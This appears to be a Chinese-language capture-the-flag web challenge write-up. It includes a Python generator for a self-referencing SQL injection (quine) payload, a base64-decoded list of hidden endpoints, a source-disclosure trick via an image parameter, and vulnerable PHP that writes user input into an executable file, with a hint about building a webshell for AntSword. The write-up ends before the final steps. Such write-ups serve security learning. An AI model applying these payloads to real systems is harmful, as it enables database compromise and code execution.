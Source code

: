 就是一个自查询的sql注入题

```python
def quine(data, debug=True):
    if debug: print(data)
    data = data.replace('@@',"REPLACE(REPLACE(@@,CHAR(34),CHAR(39)),CHAR(64),@@)")
    blob = data.replace('@@','"@"').replace("'",'"')
    data = data.replace('@@',"'"+blob+"'")
    if debug: print(data)
    return data

result = quine("'UNION/**/SELECT/**/@@/**/AS/**/z3eyond#")
```

python跑一下，传进去，就进入下一个界面

base64解码后,

```
aGVsbG8sd2ViX2QwZyEhIXNjdWN0Zl9pc19yZWFsbHlfaW50ZXJlc3RpbmfjgIIKCi9nZXRBcHVJbWFnZS5waHA/aW1hZ2U9YXB1LmpwZwovZ2V0QXB1QXV0aGVudGljYXRvci5waHAKL2dldEFwdVRlbXBsYXRlLnBocA==
```

```
hello,web_d0g!!!scuctf_is_really_interesting。

/getApuImage.php?image=apu.jpg
/getApuAuthenticator.php
/getApuTemplate.php
```

进入`/getApuImage.php?image=apu.jpg`,通过这个image参数，可以拿源码

![image-20220522160002434](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220522160002434.png)



每个php文件的源码拿到后

getApuAuthenticator.php

```php
<?php
echo "520刚过，告诉你们一个秘密，apu跟豪豪表白了，（づ￣3￣）づ╭❤～！！!";
error_reporting(0);
if(isset($_POST['apu']) && isset($_POST['y4'])){
    $apu = $_POST['apu'];
    $y4 = $_POST['y4'];
    if(strlen($_POST['apu']) > 6){
        echo("<script>alert('APU is too long!');</script>");
    }else{
        if(preg_match('/[^\w\/\(\)\*<>]/', $_POST['apu']) === 0){
            $_POST['y4'] = preg_replace("/[a-zA-Z0-9|^~]/","",$_POST['y4']);
            $template = file_get_contents('./template.html');
            $content = str_replace("__APU__", $_POST['apu'], $template);
            $content = str_replace("__Y4__", $_POST['y4'], $content);
            file_put_contents('getApuTemplate.php', $content);
            echo("<script>alert('Successed!');</script>");
        }
        else{
            echo("<script>alert('Invalid chars in apu!');</script>");
        }
    }
}
//蚁剑对你构造的eval函数和assert函数都不敏感哦！！！想想还可以构造什么函数哦！！！
```
